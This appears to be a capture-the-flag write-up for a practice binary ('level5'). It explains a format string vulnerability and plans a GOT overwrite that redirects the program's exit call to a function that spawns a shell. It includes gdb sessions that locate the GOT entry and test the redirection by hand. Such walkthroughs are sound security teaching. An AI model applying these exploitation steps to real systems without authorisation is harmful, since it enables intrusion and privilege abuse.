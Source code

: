 ## Press printf's f for fun and profit episode III (level5)

This level's [binary](level5/source.c) still does the same thing as the last
ones. It takes user input and prints it back to stdin. The input buffer is also
directly given to printf, which means we can once again perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).
However this time there is no _m_ value to be set. All we have in our function
_n_, after our insecure printf call, is an exit. There is also an other
function, _o_, declared in the binary which calls system and spawns a shell.

We must obviously find a way to call the _o_ function. The only entry point we
have after the printf call is - ironically - our exit call. The call instruction
refers to an address where the function resides. If we could rewrite the call
instruction to point to _o_ or to make the exit address point to it, this would
do the trick.

One way to do this is through the
[got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.

So first we get the GOT address of the exit function:

```shell
# run gdb on level5
gdb ./level5
# print the exit call we want to overwrite in the n function
(gdb) disass n
... # lines removed for clarity
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
# then the got address
(gdb) x/3i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```

This would be _0x8049838_ here. We can test that the exploit could work by
setting this address' value to the address of the function _o_.

```shell
# get o's address
(gdb) i addr o
Symbol "o" is at 0x80484a4 in a file compiled without debugging.
# break on the exit call
(gdb) b *0x080484ff
(gdb) run
Starting program: /home/user/level5/level5
random input
random input

Breakpoint 1, 0x080484ff in n ()
# now replace the exit's got address with o
(gdb) set *0x8049838 = 0x80484a4
(gdb) c
Continuing.
# here we are (well still at level5, but theoretically it works)
$ whoami
level5
```
